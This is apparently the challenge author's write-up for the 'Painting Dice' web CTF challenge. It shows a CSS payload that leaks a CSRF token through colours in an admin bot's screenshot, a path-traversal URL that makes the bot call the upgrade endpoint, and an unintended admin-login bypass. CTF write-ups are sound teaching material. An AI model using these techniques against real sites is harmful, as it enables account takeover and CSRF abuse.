 +++ 
draft = false
date = 2025-06-22T00:00:00+02:00
title = "Writeup Painting Dice"
description = "A writeup for the Painting Dice challenge of the GPNCTF23"
slug = "writeup-painting-dice-098527d17a3c"
authors = ["sn00py1310"]
tags = ["ctf", "writeup", "gpnctf"]
categories = []
series = []
+++


Notes: This is a writeup from the author of the challenge. The handout is [painting-dice.tar.gz](./painting-dice.tar.gz).
## Short challenge description
User can update a profile with HTML and CSS. Javascript execution is not possible because of a Strong CSP. User can requests a review from the admin bot, which then sends them a screenshot from their profile. To get the flag the user needs to be upgraded.

## Challenge description

The challenge is a website a where user can create there own profile with user customized HTML and CSS. The HTML is secured with DOMPurify and the CSS is filtered for `</` patterns. Also the CSS is filtered for word `content`. 
This means we can't have any javascript execution. If there would have been any bypass, the Content-Security-Policy (CSP) is very strict to the hash of the js files.
```js
sessionRouter.get("/api/profile/:profileId/edit", onlySelf, requireCSRF, noAdmin, async (req, res) => {
    let { style, html } = req.query;
    let customCSS = style ? String(style) : "";
    let customHTML = html ? String(html) : "";

    if (customCSS.match(/content/i)) customCSS = ""; // I don't like css ::before and ::after content
    if (customCSS.match(/<\s*\//i)) customCSS = ""; // Don't close the style tag

    customHTML = DOMPurify.sanitize(customHTML, {FORBID_TAGS: ['style']});
    if (customHTML.length > 2000 || customCSS.length > 2000) return res.render('error', {errorMsg: "Your html or style is to long."});


    await db.updateProfile(req.session.profileId, customCSS, customHTML);
    res.redirect(`/profile/${req.session.profileId}`);
});
```
```
Content-Security-Policy: default-src 'self'; style-src 'self' 'unsafe-inline'; img-src 'self' data:; script-src 'sha256-WSeViGumYYt+5BT8dVGNsb44Rno6/MnCJrINKv2xOWc=';

```

To get the flag, we need to upgrade the user to a premium user.
```js
sessionRouter.get('/flag', noAdmin, async (req, res, next) => {
    let profileId = parseInt(req.session.profileId);
    if(!(await db.hasFlag(profileId))) return res.render('error', {errorMsg: "Sorry you don't have access to the flag."});

    res.send(flag);
});
```

But this is only possible with the admin bot. This But the upgrade endpoint is protected by a Cross-Site-Request-Forgery (CSRF) token. So it isn't possible to simply send the bot to this endpoint.
```js
sessionRouter.get('/api/upgrade/:profileId', requireCSRF, async (req, res, next) => {
    if (req.session.profileId !== 0) return res.render('error', { errorMsg: "You aren't a admin"});
    let profileIdParam = parseInt(req.params.profileId);
    if (profileIdParam === 0) return res.render('error', { errorMsg: "Can't upgrade the admin."});

    await db.upgradeProfile(profileIdParam);
    console.log("Profile upgraded")
    res.send("Profile upgraded.");
});
```

Where is the CSRF token?
The CSRF token is place in the attributes of the script tag.
```html
<script data-csrf="{{ getCSRFToken }}" src="/forms.js" integrity="{{ cspHash 'forms.js' }}" defer></script>
```
So we need to leak the CSRF token and after that send the bot to our profile.


## Exploiting
### The intended solution
The intended exploit requires the newly added CSSAdvancedAttrFunction feature in Chrome 133. The idea was to leak the CSRF token with some clever CSS.

```css
script{
    --rawToken: attr(data-csrf type(<integer>));

    --background-blue: mod(var(--rawToken), 256);

    --temp1: calc((var(--rawToken) - var(--background-blue)) / 256);
    --background-green: mod(var(--temp1), 256);

    --temp2: calc((var(--temp1) - var(--background-green)) / 256);
    --background-red: mod(var(--temp2), 256);

    --temp3: calc((var(--temp2) - var(--background-red)) / 256);
    --font-blue: mod(var(--temp3), 256);

    --temp4: calc((var(--temp3) - var(--font-blue)) / 256);
    --font-green: mod(var(--temp4), 256);

    --temp5: calc((var(--temp4) - var(--font-green)) / 256);
    --font-red: mod(var(--temp5), 256);
    
    /* Browser only support 32 Bit Integer use only 31 Bit  because first bit is for sign */
    --font-green: 0;
    --font-red: 0;

    --background-color: color(srgb calc(var(--background-red) / 255) calc(var(--background-green) / 255) calc(var(--background-blue) / 255));
    --font-color: color(srgb calc(var(--font-red) / 255) calc(var(--font-green) / 255) calc(var(--font-blue) / 255));
    
    
    background-color: var(--background-color);
    border: 20px solid var(--font-color);

    display: block;
    width: 500px;
    height: 500px;
}
```
The calculation `calc((var(--temp1) - var(--background-green)) / 256);` is simple a integer division without remainder. Because CSS does not have a function for that.

With this and a review from the admin bot, we can extract the CSRF token from the RGB values of the image.

```
The color of the pixel at (10, 10) is (0, 0, 79)
The color of the pixel at (30, 30) is (27, 220, 79)
leaked_csrf_hex='4f1bdc4f' - leaked_csrf='1327225935'
```
![Image from the admin bot's view.](./painting-dice-image.png)

The admin bot is vulnerable to a path traversal on the profileId, so we can send it to any page on the same domain.
```js
noSessionRouter.get('/admin/:profileId', async (req, res) => {
    try {
        let profileId = parseInt(req.params.profileId);

        profileId = req.params.profileId;
        const browser = await puppeteer.launch({ executablePath: process.env.BROWSER, args: process.env.BROWSER_ARGS.split(',') });
        const page = await browser.newPage();
        await page.goto(`http://localhost:1337/admin/login?adminToken=${ADMIN_TOKEN}`);
        await new Promise(resolve => setTimeout(resolve, 1000));
        // make sure JS execution isn't blocked
        await page.waitForFunction('true');
        
        
        await page.goto('http://localhost:1337/profile/' + profileId);
        await new Promise(resolve => setTimeout(resolve, 1000));
        // make sure JS execution isn't blocked
        await page.waitForFunction('true');
        // take a screenshot
        const screenshot = await page.screenshot();
        await browser.close();
        res.setHeader("Content-Type", "image/png");
        res.send(screenshot);
    } catch(e) {console.error(e); res.send("internal error :( pls report to admins")}
});
```

With this link it is possible to request to admin to visit the upgrade path with a valid csrf token.
```
{URL_PREFIX}/admin/{profile_id}%2F..%2F..%2F..%2F..%2F..%2Fapi%2Fupgrade%2F{profile_id}%3FcsrfToken%3D{leaked_csrf}
```


After that we just visit the /flag endpoint and get `GPNCTF{f4v0rIte_ColoR_0X000000_Lik3_The_Nigh7_sKy}`


### The unintended solution
There has been a bug in the login system of the bot.
```js {hl_lines=[2,4]}
noSessionRouter.get('/admin/login', async (req, res, next) => {
    let adminToken = req.query.adminToken;

    if (req.query.adminToken !== adminToken) {
        res.send("Token is wrong");
        return;
    }

    req.session.returning = true;
    req.session.userId = 0;
    res.sendStatus(200);
});
```
I don't know of a way that the expression `req.query.adminToken !== adminToken` could evaluate to false. So everyone could login as admin.

---
This bug was some copy and past error. Some people noticed that the same bug has been in `Free Parking Network`. Because of this I patched it in `PAINting Dice`. Then why did you got the broken version? We simply forgot to rebuild the containers. We noticed it 8 hours before the CTF ended, so we decided to keep it as is. Everything else would be unfair to other participants around the world in different time zones.
